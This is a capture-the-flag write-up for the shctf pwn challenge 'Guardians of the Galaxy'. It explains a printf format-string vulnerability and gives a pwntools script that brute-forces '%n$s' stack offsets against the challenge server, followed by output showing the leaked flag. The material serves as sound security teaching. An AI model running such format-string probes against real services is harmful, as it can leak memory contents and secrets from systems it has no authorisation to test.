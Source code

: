 ```yaml
---
title: "shctf/pwn: Guardians of the Galaxy"
date: 2022-04-06 10:33:54
tags:
- ctf
- shctf
- pwn
description: "Writeup for the shctf pwn challenge \"Guardians of the Galaxy\"."
permalink: ctfs/shctf/pwn/guardians-of-the-galaxy/
thumbnail: https://enscribe.dev/image/banner-ctfs.png
---
```


<style>
    .box {
        border: 1px solid rgba(100, 100, 100, .5);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<p class="box">
Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format? <code>nc 0.cloud.chals.io 12690</code><br>
<b>Author</b>: GlitchArchetype<br>
<b>Files</b>: <a href="https://github.com/WhileSEC/shctf/blob/main/challenges/pwn/guardians-of-the-galaxy/files/guardians">guardians</a>
</p>

Let's look at what happens when you run that binary given to us.

```text
$ ./guardians 
Error, please message admins with 'infinity_error'.
```

This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:

```text
$ touch flag.txt && echo "FLAGHERE" > flag.txt
$ ./guardians
Does Quill manage to win the dance battle?
```

There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf()`. We will need to work our way up the stack with the format `%n$s`, where `n` is the decimal index of the argument you want, and `s` is the `printf()` specifier for a **string of characters**. I wrote this Python3/pwntools script here to achieve this loop:

```py
from pwn import *

for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.recvS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
```

As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:

```text
$ python3 exp.py
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 0...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 1...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 2...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 3...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 4...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 5...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 6...
[+] Does Quill manage to win the dance battle?
    
    Oh no, Ronano has seen through the distraction!
    shctf{im_distracting_you}
```

